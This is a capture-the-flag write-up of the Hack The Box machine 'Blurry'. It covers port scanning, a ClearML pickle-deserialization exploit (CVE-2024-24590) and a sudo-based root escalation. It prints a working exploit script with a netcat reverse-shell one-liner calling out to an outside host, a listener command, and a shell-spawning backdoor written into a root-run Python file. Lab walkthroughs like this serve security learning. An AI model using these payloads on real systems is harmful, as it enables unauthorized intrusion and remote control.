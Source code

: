 ```yaml
---
title: HTB Blurry Writeup
author: Elus1nist
layout: post
date: 16 June 2024
imagesrc: https://labs.hackthebox.com/storage/avatars/344998b24aad421410cabf912d3dc3af.png
---
```

Welcome! This is my writeup of the new Season 5 Medium machine from HTB, Blurry. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -p 22,80 -oN initial_scan 10.10.11.19
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.19
Host is up (0.16s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see an open HTTP port 80 and aother open SSH port 22. To access VHOST added the virtual host `app.blurry.htb` and `blurry.htb` to the `/etc/hosts` file

---
---
## Webpage Enumeration

Visiting the webpage we encounter:
<img src="{{- 'writeup_images/Blurry/WebPage_Landing.png' | relative_url}}" >

---
---
## ClearML RCE via Deserialization attack - CVE-2024-24590

Doing some research on the ClearML platform leads to a public CVE-2024-24590. Using the python module `clearml` this script can be created as a POC with the following steps:

1) Create a new task and mark it as review (this way the task is executed ask the service user)
2) Create Exploit object with Code Execution
3) Upload pickled artifact and execute task

```python
from clearml import Task
import pickle
import os

task = Task.init(project_name="Black Swan", task_name="Test 2", tags=["review"], task_type=Task.TaskTypes.data_processing)

class RunCmd:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.60 9001 >/tmp/f"
        return os.system, (cmd,)

command = RunCmd()

task.upload_artifact(name='revArtifact', artifact_object=command)

task.execute_remotely(queue_name='default')
```

Before running the above POC, a netcat listener was started `nc -lvnp 9001`. After execution a shell is obtained:
<img src="{{- 'writeup_images/Blurry/Reverse_Shell_Obtained.png' | relative_url}}" >

User Flag can be found - `cat ~/jippity/users.txt`
SSH Key found at - `~/.ssh/id_rsa`

---
---
## Privalege Escalation

As part of manual enumeration running `sudo -l` shows us local admin command:
```sh
(root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

When we examine the contents of `/usr/bin/evaluate_model` we can see the file `/models/evaluate_model.py` is called.
As we have read write privelages to the `/models` directory we can change the contents of the python file and achieve code execution:

```sh
### 1) Delete current file ###
rm -rf  /models/evaluate_model.py

### 2) create backdoor ###
echo -e 'import pty\npty.spawn("/bin/bash")' > /models/evaluate_model.py

### 3) Trigger backdoor and attain root ###
sudo /usr/bin/evaluate_model /models/*.pth
```

<img src="{{- 'writeup_images/Blurry/Root_Shell.png' | relative_url}}" >

We can now print the root flag - `cat /root/root.txt`




<img src="https://gifsec.com/wp-content/uploads/2022/09/yay-gif-1.gif">
